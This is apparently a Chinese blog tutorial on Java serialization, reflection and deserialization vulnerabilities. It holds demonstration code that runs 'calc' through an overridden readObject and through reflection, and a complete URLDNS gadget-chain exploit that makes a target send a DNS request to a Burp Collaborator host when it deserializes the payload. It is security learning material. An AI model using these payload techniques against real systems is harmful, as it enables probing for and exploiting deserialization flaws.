

# Java序列化与反序列化

## 序列化

java的序列化依赖于`ObjectOutputStream`类的 `writeObject()` 方法可以实现序列化

序列化指的是将java对象转换成字节序列存在在文件,内存,数据库中

和PHP,Python一样,序列化与反序列化有利于对象的存储,有效的实现多平台之间的通信、对象持久化存储

## 反序列化

java的反序列化依赖于`ObjectInputStream` 类的 `readObject()` 方法用于反序列化

与序列化相反,反序列化就是吧字节序列恢复为java对象的过程

示例代码

```
//import java.io.FileOutputStream;
//import java.io.ObjectOutputStream;
//import java.io.FileInputStream;
//import java.io.ObjectInputStream;
import java.io.*;

public class test{
    public static void main(String args[])throws Exception{
        //定义obj对象
        String obj="hello world!";
        //创建一个包含对象进行反序列化信息的”object”数据文件
        FileOutputStream fos=new FileOutputStream("object");
        ObjectOutputStream os=new ObjectOutputStream(fos);
        //writeObject()方法将obj对象写入object文件
        os.writeObject(obj);
        os.close();
        //从文件中反序列化obj对象
        FileInputStream fis=new FileInputStream("object");
        ObjectInputStream ois=new ObjectInputStream(fis);
        //恢复对象
        String obj2=(String)ois.readObject();
        System.out.print(obj2);
        ois.close();
    }
}
```

上面代码将obj对象序列化写入object文件,再用readObject将其反序列化得到该对象

运行结果


还生成了应该object文件,打开看看里面内容


也可以不用xxd命令,直接用010查看他的16进制也可以

`aced 0005`是java序列化内容的特征

# Java反序列化漏洞

之前提到java反序列化依赖的是`readObject`方法,不过当readObject方法被重写的时候,我们调用的readObject方法就是重写后的readObject方法了,如果该方法书写不当的话就有可能引发恶意代码的执行

示例代码

```
//import java.io.FileOutputStream;
//import java.io.ObjectOutputStream;
//import java.io.FileInputStream;
//import java.io.ObjectInputStream;
import java.io.*;

public class test{
    public static void main(String args[]) throws Exception{
        //定义myObj对象
        MyObject myObj = new MyObject();
        myObj.name = "Hello World";
        //创建一个包含对象进行反序列化信息的”object”数据文件
        FileOutputStream fos = new FileOutputStream("object");
        ObjectOutputStream os = new ObjectOutputStream(fos);
        //writeObject()方法将myObj对象写入object文件
        os.writeObject(myObj);
        os.close();
        //从文件中反序列化obj对象
        FileInputStream fis = new FileInputStream("object");
        ObjectInputStream ois = new ObjectInputStream(fis);
        //恢复对象
        MyObject objectFromDisk = (MyObject)ois.readObject();
        System.out.println(objectFromDisk.name);
        ois.close();
    }
}

class MyObject implements Serializable{
    public String name;
    //重写readObject()方法
    private void readObject(java.io.ObjectInputStream in) throws IOException, ClassNotFoundException{
        //执行默认的readObject()方法
        in.defaultReadObject();
        //执行打开计算器程序命令
        Runtime.getRuntime().exec("calc");
//      Runtime.getRuntime().exec("open /Applications/Calculator.app/");
    }
}
```

看看写入object文件的东西


这次自己写一个Myobject类作为对象,里面重写了readObject方法,可以执行exec命令

MyObject 类实现了`Serializable`接口，并且重写了`readObject()`函数。这里需要注意：只有实现了java.io.Serializable接口的类的对象才可以被序列化

然后执行代码,输出`Hello World`,并且弹出了计算器

不过如果程序员写出这样的代码，只能被fire了

所以往往实际中反序列化漏洞的构造比较复杂，而且需要借助Java的一些特性如Java的反射

# Java反射

## 定义

在运行状态中，对于任意一个类，都能够获取到这个类的所有属性和方法，对于任意一个对象，都能够调用它的任意一个方法和属性(包括私有的方法和属性)，这种动态获取的信息以及动态调用对象的方法的功能就称为java语言的反射机制

简而言之就是,我们可以通过反射获取任意一个我们想要的类,里面的所有属性和方法对我们来说都是透明的,想什么来什么

在Java中定义的一个类本身也是一个对象，即java.lang.Class类的实例，这个实例称为类对象

**反射的好处：**

```
1.可以在程序运行过程中，操作这些对象；
2.可以降低程序的一些耦合性，提高程序的可扩展性。
```

## 反射中class对象的获取功能

- 获取成员变量们

  ```
  Field[ ] getFields() 获取所有public修饰的成员变量
  
  Field getField(String name) 获取指定名称public的成员变量
  
  Field[ ] getDeclaredFields() 获取所有成员变量，不考虑修饰符
  
  Field getDeclaredField(String name) 获取所有指定名称的成员变量，不考虑修饰符
  ```

- 获取构造方法们

  ```
  Constructor<?>[ ] getConstructors() 获取所有public修饰的构造方法
  
  Constructor<T> getConstructor(类<?>... parameterTypes) 获取指定名称public的构造方法
  
  Constructor<?>[ ] getDeclaredConstructors() 获取所有构造方法，不考虑修饰符
  
  Constructor<T> getDeclaredConstructor(类<?>... parameterTypes) 获取所有指定名称的构造方法，不考虑修饰符
  ```

- 获取成员方法们

  ```
  Method[ ] getMethods() 获取所有public修饰的成员方法
  
  Method getMethod(String name, 类<?>... parameterTypes) 获取指定名称public的成员方法
  
  Method[ ] getMethods() 获取所有成员方法，不考虑修饰符
  
  Method getDeclaredMethod(String name, 类<?>... parameterTypes) 获取所有指定名称的成员方法，不考虑修饰符
  ```

- 获取类名(得到的是全类名)

  ```
  String getName()	#例如Userclass.getName()
  ```

下面对每个功能的获取方法会在提到,不过这里贴出来主要是想提醒一下,对于获取所有的定义,都有一个中括号

## 获取类对象

先定义一个User类

```
package reflection;

public class User {
    private String name;

    public User(String name) {
        this.name=name;
    }
    public void setName(String name) {
        this.name=name;
    }
    public String getName() {
        return name;
    }
}
```

一般有三个方法来获取类对象

```
1.Class.forName("全类名")		#将字节码文件加载进内存，返回Class对象
class.forName("reflection.User")	#多用于配置文件，将类名定义在配置文件中；读取文件，加载类

2.类名.class		#通过类名的属性class获取
User.class		#多用于参数的传递

3.对象.getClass()		#getclass()方法在Object类中定义
new User().getClass()		#多用于对象的获取字节码的方式
```

以上三种方法的值都是`class reflection.User`

一般就用第一种,只有在括号里面加上对应的路径和类名就行即可得到对应的类对象

## 利用反射获取类构造方法创建类对象

在平常,我们可以直接new一个对象，然后去调用其的构造器

不过反射却不一样,我们要先获取这个对象,再获取其构造器对象,最后通过构造器对象去创建一个新的对象

| 方法                                               | 说明                                                      |
| -------------------------------------------------- | --------------------------------------------------------- |
| getConstructor(Class...<?> parameterTypes)         | 获得该类中指定名称并与参数类型匹配的公有构造方法          |
| getConstructors()                                  | 获得该类的所有公有构造方法                                |
| getDeclaredConstructor(Class...<?> parameterTypes) | 获得该类中所有指定并与参数类型匹配的构造方法,不考虑修饰符 |
| getDeclaredConstructors()                          | 获得该类所有构造方法,不考虑修饰符                         |

示例代码

```
package reflection;

import java.lang.reflect.*;

public class CreateObject {
    public static void main(String[] args) throws Exception {
    	//获取User类
        Class UserClass=Class.forName("reflection.User");
        //匹配User类中的共有的构造方法public User(String name)
        Constructor constructor=UserClass.getConstructor(String.class);
        //利用匹配到的构造方法实例化传值,创建一个新的类user1
        User user1=(User) constructor.newInstance("DawnT0wn");
        System.out.println(user1.getName());
    }
}
```


reflectionFactory.newConstructorForSerialization 会生成一个类的 Constructor ，但是其不需要构造参数就可以获取，所以其可以做到不调用默认构造参数就可以实例化对象。

## 利用反射调用方法

| 方法                                                       | 说明                          |
| ---------------------------------------------------------- | ----------------------------- |
| getMethod(String name, Class...<?> parameterTypes)         | 获得该类某个公有的方法        |
| getMethods()                                               | 获得该类所有公有的方法        |
| getDeclaredMethod(String name, Class...<?> parameterTypes) | 获得该类某个方法,不考虑修饰符 |
| getDeclaredMethods()                                       | 获得该类所有方法,不考虑修饰符 |

指定名称获取成员方法时，需要传入方法名以及参数。
执行方法时，需要用到`invoke()`方法，要传入方法对象和实际的参数列表；

```
Object invoke(Object obj, Object...args)
```

`getDeclaredMethod(String name, Class...<?> parameterTypes)`,不能直接获取私有成员方法,可以通过暴力反射`setAccessible()`方法获取私有成员方法

获取所有public修饰的成员方法时，不仅会得到自己设置的几个方法，还有Object类、父类等的方法。
调用方法的`getName()`可以获取到方法名称

示例代码

```
package reflection;

import java.lang.reflect.*;

public class CallMethod {
    public static void main(String[] args) throws Exception {
        Class UserClass = Class.forName("reflection.User");//获取User类
		//获取User类构造方法
        Constructor constructor = UserClass.getConstructor(String.class);
        User user1 = (User) constructor.newInstance("DawnT0wn");//向构造函数载入值
		//在新类user1中调用setName方法
        Method method = UserClass.getDeclaredMethod("setName", String.class);
        method.invoke(user1, "w0s1np");//输入值

        System.out.println(user1.getName());	//调用user1中的getName函数
        System.out.println(method.getName());	//获取方法名称
    }
}
```

## 利用反射访问属性

| 方法                          | 说明                              |
| ----------------------------- | --------------------------------- |
| getField(String name)         | 获得指定名称公有的属性对象        |
| getFields()                   | 获得所有公有的属性对象            |
| getDeclaredField(String name) | 获得指定名称属性对象,不考虑修饰符 |
| getDeclaredFields()           | 获得所有属性对象,不考虑修饰符     |

示例代码

```
package reflection;

import java.lang.reflect.*;

public class AccessAttribute {
    public static void main(String[] args) throws Exception {
        Class UserClass=Class.forName("reflection.User");

        Constructor constructor=UserClass.getConstructor(String.class);
        User user=(User) constructor.newInstance("w0s1np");

        Field field= UserClass.getDeclaredField("name");//忽略访问权限修饰符的安全检查
        field.setAccessible(true);// name是私有属性，需要先设置可访问
        field.set(user, "DawnT0wn");

        System.out.println(user.getName());
    }
}
```

获取成员变量后可做操作：

- 设置值：`set(Object obj, Object value)`
- 获取值：`get(Object obj)`
- 忽略访问权限修饰符的安全检查：`setAccessible(true)`（暴力反射）

`getDeclaredField(String name)`不能直接访问私有成员变量，但是可以使用`setAccessible()`方法，忽略访问权限修饰符的安全检查来访问

## 利用反射执行代码

示例代码

```
package reflection;

public class Exec {
    public static void main(String[] args) throws Exception {
        //java.lang.Runtime.getRuntime().exec("calc.exe");

        Class runtimeClass=Class.forName("java.lang.Runtime");
        Object runtime=runtimeClass.getMethod("getRuntime").invoke(null);// getRuntime是静态方法，invoke时不需要传入对象
        runtimeClass.getMethod("exec", String.class).invoke(runtime,"calc.exe");
    }
}
```

可以到这篇文章里面去学习一下反射的用法,讲的很具体https://xz.aliyun.com/t/9921#toc-4

或者可以在B站观看视频https://www.bilibili.com/video/BV1C4411373T?p=3

# serialVersionUID

即序列化版本号，是Java程序运行时环境根据类的内部细节自动生成的；

该序列号在反序列化过程中用于验证序列化对象的发送者和接收者是否为该对象加载了与序列化兼容的类。如果接收者加载的该对象的类的 serialVersionUID 与对应的发送者的类的版本号不同，则反序列化将会导致 InvalidClassExceptio。

如果对类的源代码进行了修改，再重新编译，新生成的类文件的serialVersionUID的取值有可能也会发生变化。

类的serialVersionUID的默认值完全依赖于Java编译器的实现，对于同一个类，用不同的Java编译器编译，有可能会导致不同的 serialVersionUID，也有可能相同。为了提高serialVersionUID的独立性和确定性，强烈建议在一个可序列化类中显示的定义serialVersionUID，为它赋予明确的值。

# Java反序列化链

和php一样,需要找一个反序列化点,php可以直接去调用魔术方法,而java不一样,所以入口类要找好

入口类:重写readObject方法,参数类型宽泛,jdk自带,里面可以调用可用的函数然后形成可用的chain

在java中,Hashmap类就是一个很好入口,里面重写了readObject方法,而且参数类型是一个键值对,并且是java中自带的类

然后就是调用链,经过一系列调用后,走到一个可执行点(rce,ssrf)

至于为什么会去重写writeObject和readObject方法可以参考这篇文章https://zhuanlan.zhihu.com/p/84533476

# URLDNS链分析

这条链用来入手java的反序列化链很合适

## 分析

`URLDNS` 是ysoserial中利用链的一个名字，通常用于检测是否存在Java反序列化漏洞。该利用链具有如下特点：

- 不限制jdk版本，使用Java内置类，对第三方依赖没有要求
- 目标无回显，可以通过DNS请求来验证是否存在反序列化漏洞
- URLDNS利用链，只能发起DNS请求，并不能进行其他利用

可以在ysoserial里面找到URLDNS的Gadget


里面列出了URLDNS的调用链

```
Gadget Chain:
      HashMap.readObject()
      	HashMap.putVal()
      		HashMap.hash()
            	URL.hashCode()
```

java.util.HashMap是java的一个内置类,里面重写了readObject方法


```
private void readObject(java.io.ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        // Read in the threshold (ignored), loadfactor, and any hidden stuff
        s.defaultReadObject();
        reinitialize();
        if (loadFactor <= 0 || Float.isNaN(loadFactor))
            throw new InvalidObjectException("Illegal load factor: " +
                                             loadFactor);
        s.readInt();                // Read and ignore number of buckets
        int mappings = s.readInt(); // Read number of mappings (size)
        if (mappings < 0)
            throw new InvalidObjectException("Illegal mappings count: " +
                                             mappings);
        else if (mappings > 0) { // (if zero, use defaults)
            // Size the table using given load factor only if within
            // range of 0.25...4.0
            float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
            float fc = (float)mappings / lf + 1.0f;
            int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                       DEFAULT_INITIAL_CAPACITY :
                       (fc >= MAXIMUM_CAPACITY) ?
                       MAXIMUM_CAPACITY :
                       tableSizeFor((int)fc));
            float ft = (float)cap * lf;
            threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                         (int)ft : Integer.MAX_VALUE);

            // Check Map.Entry[].class since it's the nearest public type to
            // what we're actually creating.
            SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
            @SuppressWarnings({"rawtypes","unchecked"})
            Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
            table = tab;

            // Read the keys and values, and put the mappings in the HashMap
            for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);
            }
        }
    }
```

在结尾处调用了hash函数

```
putVal(hash(key), key, value, false, false);
```

跟进hash

```
static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }
```

对key是否等于null进行判断,如果key不为空,则调用hashCode

**回溯Hashmap**

可以来看看Hashmap的参数


要求传入的是一个键值对,这里的key是Hashmap传入的第一个值,可以让他不为空

再看for循环

```
 for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);
            }
```

key和value就是根据s.readObject来的

接下来跟进hashCode,在java中有很多hashCode函数,这里调用的是key.hashCode

这里实现的话,我的key传入的是一个URL对象,所以这里调用的是java.net.hashCode函数

```
public synchronized int hashCode() {
    if (hashCode != -1)
        return hashCode;

    hashCode = handler.hashCode(this);
    return hashCode;
}
```

有个if判断,当hashCode的属性的值不等于-1的时候直接返回hashCode属性的值,等于-1的时候调用handler.hashCode)(this),跟进handler.hashCode



调用了getHosttAddress方法,而这个方法里面会调用InetAddress.getByName(host)发送DNSLOG请求


目前这条的链子已经出来了,接下来是参数控制

先看readObject方法的最后

```
for (int i = 0; i < mappings; i++) {
    @SuppressWarnings("unchecked")
        K key = (K) s.readObject();
    @SuppressWarnings("unchecked")
        V value = (V) s.readObject();
    putVal(hash(key), key, value, false, false);
}
```

key是s.readObject()方法读出来的,那我们序列化的时候就应该存储key的值,Hashmap重写了writeObject方法

```
private void writeObject(java.io.ObjectOutputStream s)
    throws IOException {
    int buckets = capacity();
    // Write out the threshold, loadfactor, and any hidden stuff
    s.defaultWriteObject();
    s.writeInt(buckets);
    s.writeInt(size);
    internalWriteEntries(s);
}
```

跟进internalWriteEntries

```
void internalWriteEntries(java.io.ObjectOutputStream s) throws IOException {
    Node<K,V>[] tab;
    if (size > 0 && (tab = table) != null) {
        for (int i = 0; i < tab.length; ++i) {
            for (Node<K,V> e = tab[i]; e != null; e = e.next) {
                s.writeObject(e.key);
                s.writeObject(e.value);
            }
        }
    }
}
```

这里的key以及value是从tab中取的，而tab的值即HashMap中table的值。

想要修改table的值，就需要调用HashMap的put方法

简而言之,这里的key可以通过Hashmap的put方法传进来的

```
public V put(K key, V value) {
    return putVal(hash(key), key, value, false, true);
}
```

put这里也会调用一次hash函数,和readObject方法最后我们利用那里一样,所以这里到后面也会去调用一次getHosttAddress方法,然后触发DNS请求,这样就分不清到底是序列化的时候触发的DNS请求还是反序列化触发的

但是看这里hashCode函数

```
public synchronized int hashCode() {
    if (hashCode != -1)
        return hashCode;

    hashCode = handler.hashCode(this);
    return hashCode;
}
```

hashCode本身的值是-1

```
private int hashCode = -1;
```

然后回去调用handler.hashCode,所以这里通过反射去修改hashCode属性的值,先让他为-1以外的任何数,调用put方法后再修改回-1,这样在最后反序列化的时候他的值还是-1就会去触发DNS请求

URL类的构造函数很多就直接用最简单的这种

```
public URL(String spec) throws MalformedURLException {
    this(null, spec);
}
```

所以最后的exp

```
package URLDNS;

import java.io.*;
import java.lang.reflect.*;
import java.net.URL;
import java.util.HashMap;

public class serializetest {
    public static void serialize(Object obj) throws Exception{
        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        os.writeObject(obj);
    }

    public static void main(String[] args) throws Exception{

        HashMap map = new HashMap();
        URL url =new URL("http://110en57fndj6zv9umjox9w5in9tzho.burpcollaborator.net");//这里的URL直接用burp生成一个,在里面验证DNS请求
        Field hashCodefiled = url.getClass().getDeclaredField("hashCode");//获取hashCode属性
        hashCodefiled.setAccessible(true);//私有属性,需要暴力反射
        hashCodefiled.set(url,1);//先把hashCode的值设置为1
        map.put(url,123);//此时hashCode值为1,不会去触发DNS请求
        hashCodefiled.set(url,-1);//将hashCode的值设置为-1,这样反序列化的时候才会去触发DNS请求
        serialize(map);//序列化对象

        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("ser.bin"));
        fos.readObject();//反序列化对象,此时hashCode的值为-1,触发DNS请求
    }
}
```

## 复现

执行运行exp

任何在我的burp里面收到了DNS请求


也可以去http://www.dnslog.cn/接受dns请求


JDK1.8下的调用路线：

1. HashMap->readObject()
2. HashMap->hash()
3. URL->hashCode()
4. URLStreamHandler->hashCode()
5. URLStreamHandler->getHostAddress()
6. InetAddress->getByName()

而在jdk1.7u80环境下调用路线会有一处不同，但是大同小异：

1. HashMap->readObject()
2. **HashMap->putForCreate()**
3. HashMap->hash()
4. URL->hashCode()
5. 之后相同

# 小结

1. Java类只有实现Serializable接口或Externalizable接口才可启用序列化功能；
2. 当一个对象被序列化时，只保存对象的非静态成员变量；
3. 如果一个对象发成员变量是一个对象，那么这个对象的数据成员也会被序列化；
4. 使用transient关键字声明不需要被序列化的变量；（private transient String sex）
5. 如果父类实现序列化，那么子类就自动实现序列化，不需要再显式实现Serializable接口；
6. 显式定义serialVersionUID。


参考链接

https://www.bilibili.com/video/BV16h411z7o9?p=2

https://xz.aliyun.com/t/9417#toc-2


参考链接:

https://xz.aliyun.com/t/9921#toc-5

https://xz.aliyun.com/t/6787?accounttraceid=733a01619ec846c2a3c9b9a1e496f27eorbr#toc-8

https://paper.seebug.org/312/#5

https://zhuanlan.zhihu.com/p/84533476
